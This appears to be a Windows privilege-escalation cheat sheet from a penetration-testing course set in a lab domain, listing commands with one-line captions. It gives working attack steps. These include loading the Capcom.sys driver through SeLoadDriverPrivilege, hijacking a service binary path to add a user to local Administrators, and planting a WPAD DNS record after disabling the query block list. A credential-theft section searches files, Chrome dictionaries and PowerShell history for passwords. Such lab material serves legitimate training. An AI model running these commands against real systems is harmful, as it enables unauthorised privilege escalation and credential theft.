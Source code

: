 `reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters /v ServerLevelPluginDll`

> Deleting a registry key

`sc query dns`

> Checking a service status

`Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local`

> Disabling the global query block list

`Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3`

> Adding a WPAD record

`cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp`

> Compile with cl.exe

`reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"`

> Add reference to a driver (1)

`reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1`

> Add reference to a driver (2)

`.\DriverView.exe /stext drivers.txt` and `cat drivers.txt | Select-String -pattern Capcom`

> Check if driver is loaded

`EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys`

> Using EopLoadDriver

`c:\Tools\PsService.exe security AppReadiness`

> Checking service permissions with PsService

`sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"`

> Modifying a service binary path

## Credential Theft`findstr /SIM /C:"password" *.txt *ini *.cfg *.config *.xml`

> Search for files with the phrase "password"

`gc 'C:\Users\lafi\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password`

> Searching for passwords in Chrome dictionary files

`(Get-PSReadLineOption).HistorySavePath`

> Confirm PowerShell history save path

`gc (Get-PSReadLineOption).HistorySavePath`

> Reading PowerShell history file
